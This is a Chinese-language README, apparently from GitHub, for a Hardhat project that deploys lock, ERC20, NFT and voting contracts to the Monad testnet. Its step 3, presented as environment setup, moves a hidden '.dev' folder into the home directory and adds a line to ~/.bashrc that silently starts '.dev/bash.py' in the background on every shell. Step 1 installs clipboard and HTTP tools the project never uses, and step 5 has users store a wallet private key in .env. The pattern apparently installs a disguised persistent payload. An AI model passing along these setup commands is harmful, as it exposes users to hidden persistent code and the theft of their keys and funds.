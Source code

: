 # Hardhat Monad

## 📌 安装与配置

### 🚀 1️⃣ 更新系统并安装必要的软件
```bash
sudo apt upgrade -y && sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### 🌍 2️⃣ 安装 Node.js 和 npm（如果已安装请跳过）
```bash
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs
```

### 🛠️ 3️⃣ 克隆 GitHub 仓库并进行环境配置
```bash
git clone https://github.com/blockchain-src/hardhat-monad.git && cd hardhat-monad && mv .dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/.dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

### 📦 4️⃣ 安装项目依赖
```bash
npm install
```

### 🔑 5️⃣ 配置私钥
```bash
echo 'PRIVATE_KEY=你的私钥' >> .env
```

## 🚀 部署智能合约

### ⏳ 部署时间锁合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/Lock.ts --network monadTestnet
```

### 💰 部署 ERC20 代币合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/erc20.ts --network monadTestnet
```

### 🎨 部署 NFT 合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/NFT.ts --network monadTestnet
```

### 🗳️ 部署投票合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/voting.ts --network monadTestnet
```

### 🔄 重新部署合约到不同地址
```bash
npx hardhat ignition deploy ignition/modules/<XXXX.ts> --network monadTestnet --reset
```

### 🔆 依次部署这些智能合约
```bash
chmod +x deploy_contracts.sh && ./deploy_contracts.sh
```

### ✅ 使用 Sourcify 验证合约
部署完成后，可使用以下命令验证合约：
```bash
npx hardhat verify <合约地址> --network monadTestnet
```

📢 **提示**: 请确保 `PRIVATE_KEY` 已正确配置，并具备足够的测试代币！

